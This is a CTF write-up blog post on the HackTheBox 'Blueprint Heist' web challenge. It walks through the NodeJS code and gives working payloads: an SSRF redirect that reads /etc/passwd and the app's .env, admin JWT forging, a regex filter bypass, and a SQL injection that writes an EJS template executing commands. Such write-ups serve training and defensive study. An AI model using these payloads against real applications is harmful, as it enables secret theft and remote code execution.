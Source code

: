 ```yaml
---
title: "Challenge, Train, Flag: Blueprint Heist"
summary: “Challenge, Train, Flag explores CTF challenges to enhance cybersecurity skills, focusing on exploiting vulnerabilities like SSRF, JWT forging, and SQL injection in real-world scenarios.”
date: 2024-12-08
tag:
    - Cybersecurity
    - Pentesting
    - CTF
    - Code Review
    - SSRF
    - JWT
    - SQL Injection
    - WebSecurity
    - HackTheBox
    - NodeJS
---
```


# Challenge, Train, Flag: Blueprint Heist

At Atlansec, we are committed to CTFs as a key learning tool under the _learning by doing_ methodology. We believe that facing practical challenges is the best way to develop technical skills and foster creativity. With this section we want to spread the value of CTFs, share _writeups_ of challenges of a certain technical complexity and bring the community closer to a practical and technical approach to learning.

<!-- more -->

### What is a CTF?

Capture the Flag (CTF) competitions are cybersecurity challenges where participants tackle a variety of technical problems to find "flags," which are hidden markers proving successful completion of a task. CTFs simulate real-world scenarios in areas like cryptography, reverse engineering, web security, forensics, and binary exploitation, helping participants build essential cybersecurity skills.

CTFs aren't just competitions; they are a gateway to learning by solving. They teach participants how to think critically, debug complex systems, and adapt under pressure. Each challenge is a story, a puzzle, and a lesson rolled into one.

In this series, we'll explore notable CTF challenges, dive into their technical solutions, and highlight the skills they develop. Welcome to Challenge, Train, Flag!

## Key concepts

- **SSRF (Server-Side Request Forgery):** Technique that allows an attacker to force a server to make HTTP requests on their behalf. Depending on the context, it can be quite critical as it can allow an attacker to access resources within the target's internal network.

- **JSON Web Token (JWT):** An open standard for authenticating and securely transferring information using a token.

- **SQL Injection:** An attack that allows malicious SQL code to be injected into a query to manipulate the database query.

- **wkhtmltopdf:** Library for converting web content (HTML) to PDF.

## The challenge

This time we bring you a challenge from the HTB Business CTF 2024. The challenge is from the web category and although it is listed as easy on the HackTheBox platform, it is one of the most complex web challenges on the platform due to the number of steps that make up the solution.

In this challenge we are given the source code of a NodeJS application and access to a web service running the application.

### Understanding the Application Logic

The challenge starts with access to an application of the urban planning commission. When browsing, we notice that clicking on any of the links generates a POST request to the /download path. Let's review its implementation in the routes file:

```Javascript
router.post("/download", authMiddleware("guest"), (req, res, next) => {
    convertPdf(req, res, next);
});
```

Here we can see that the _convertPdf_ function is responsible for handling the logic of this path. Let's go on to examine its code:

```Javascript
async function convertPdf(req, res, next) {
    try {
        const { url } = req.body;

        if (!isUrl(url)) {
            return next(generateError(400, "Invalid URL"));
        }

        const pdfPath = await generatePdf(url);
        res.sendFile(pdfPath, { root: "." });
    } catch (error) {
        return next(generateError(500, error.message));
    }
}
```

After reading this, we can see that the function makes sure that the parameter it receives is a valid URL before passing it to the _generatePdf_ function. Let's look at the latter next:

```Javascript
async function generatePdf(urls) {
    const pdfFilename = generateRandomFilename();
    const pdfPath = `uploads/${pdfFilename}`;

    try {
        await generatePdfFromUrl(urls, pdfPath);
        return pdfPath;
    } catch (error) {
        throw new Error(`Error generating PDF: ${error.stack}`);
    }
}

async function generatePdfFromUrl(url, pdfPath) {
    return new Promise((resolve, reject) => {
        wkhtmltopdf(url, { output: pdfPath }, (err) => {
            if (err) {
                reject(err);
            } else {
                resolve();
            }
        });
    });
}
```

We note that the _generatePdfFromUrl_ function uses _wkhtmltopdf_ to convert the URL content to a PDF file. This flow opens the door to exploit a **SSRF vulnerability** in the library.

### SSRF to local file read on wkhtmltopdf

Using an attacker-controlled server, we can serve files on a web server to redirect the visitor to local file system locations, in this case converting the SSRF on the server into a way to read internal files such as /etc/passwd. To do this, we create a PHP file with the following content:

```php
<?php header('location:file:///etc/passwd'); ?>
```

By passing the URL of our server as a parameter to the /download path, the generated PDF will contain the contents of the /etc/passwd file of the server making the request.

![result pdf when request to /etc/passwd](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FZQtdU4mXr2tBi4QxRQWN%2Fimagen.png?alt=media&token=8ad9ee1c-663e-4193-8590-fa5d29a05340)

We then modify the PHP file to exfiltrate the application's .env file:

```php
<?php header('location:file:///app/.env'); ?>
```

![result pdf when request to /app/.env](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FRAlxHPUFMbqwzl2hPOfP%2Fimagen.png?alt=media&token=9c0d7a88-b46f-4d5a-9956-d7e23f77a99a)

### JWT Forging

With the key extracted from the .env file, we can sign valid JWT tokens. We use a tool like [JWT.io](https://jwt.io/) to generate a token with the administrator role:

```json
{
  "role": "admin"
}
```

![JWT edition](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2Fk7s7AKs1qYnCLf6jxVxv%2Fimagen.png?alt=media&token=167958e1-2dc9-49d1-99fe-5753b628c43c)

Using the token we have generated, we will make a request to the internal admin panel endpoint with the following structure:

```none
http://127.0.0.1:1337/admin?token=<JWT_admin>
```

In the generated PDF we can see the contents of the admin panel.  While this generates a screenshot of the admin panel, it only takes us halfway to our ultimate goal.

![screenshot of the admin panel](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FN6Qqr0Zla8nrsYfi3GqM%2Fimagen.png?alt=media&token=f96df24b-e38a-44d7-b03f-f5c5140f7a58)

### SQL injection to file upload

Analysing the rest of the application code, we discovered that the GraphQL endpoint is vulnerable to SQL injection in the _getDataByName_ query. However, a robust regular expression is used to filter out malicious entries:

```Javascript
function detectSqli(query) {
    const pattern = /^.*[!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/\?]/;
    return pattern.test(query);
}
```

A more detailed analysis shows that the expression is not multiline, which allows us to bypass it with a line break (`n`).

- No line break.

![regex matching with string](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FiHyLuPjjbRXIy5NUVxhq%2Fimagen.png?alt=media&token=89160232-b5af-47d0-a3ae-076da913d2fa)

- With a line break.

![regex not matching with string](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FR3kn9C6HhP3Ignbv4dgV%2Fimagen.png?alt=media&token=f2b092a6-503c-4e23-8299-c88c0ecd15ce)

Once this is discovered, we can build a payload for an SQL injection that writes a malicious EJS file to the 404 error path, since the application does not have a path to handle this type of error.

The payload we build should be similar to the following, where we include an EJS template that reads the flag by executing the target binary.

```SQL
' UNION SELECT 1, '<p><%= process.mainModule.require("child_process").execSync("/readflag") %></p>', 2, 3 INTO OUTFILE '/app/views/errors/404.ejs'--
```

With the malicious file in place, we access a non-existent path to throw a 404 error and execute the /readflag command. This gives us access to the contents of the flag.

![Flag](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FeTAq53W6y62vYQRnsHPy%2Fimagen.png?alt=media&token=202cab2a-4da9-4d96-bf7f-8971475f569b)
